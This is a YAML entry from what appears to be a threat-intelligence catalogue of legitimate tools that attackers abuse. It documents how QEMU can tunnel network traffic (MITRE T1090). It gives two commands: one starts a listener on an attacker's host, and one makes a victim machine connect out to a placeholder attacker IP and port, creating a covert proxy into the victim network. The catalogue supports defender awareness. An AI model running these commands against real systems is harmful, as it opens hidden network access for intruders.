 ```yaml
---
Name: QEMU
Description: "QEMU is a free and open-source emulator that uses dynamic binary translation to emulate a computer's processor"
Author: 'Kirill Magaskin'
Created: 2025-02-18
Usage:
  - Steps: qemu-system-x86_64 -boot d -cdrom <AnyISOImage> -m 6048 -device e1000,netdev=n1, mac=<AnyMAC> -smp 2 -netdev socket,id=n1,listen=:<Port>
    Description: "Steps to create a QEMU listener on attacker's host on some PORT"
    Usecase: Establishing network proxy
    Category: Proxy
    Privileges: User
    Limitations: None
    MitreID: T1090
  - Steps: qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServerIP>:<AttackerServerPort> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    Description: "Steps to create a QEMU socket network device on victim's host"
    Usecase: Establishing network proxy device
    Category: Proxy
    Privileges: User
    Limitations: None
    MitreID: T1090
Resources:
  - Link: https://securelist.com/network-tunneling-with-qemu
Acknowledgement:
  - Person: 'Grigory Sablin'
    Handle: '@grixa'
---
```

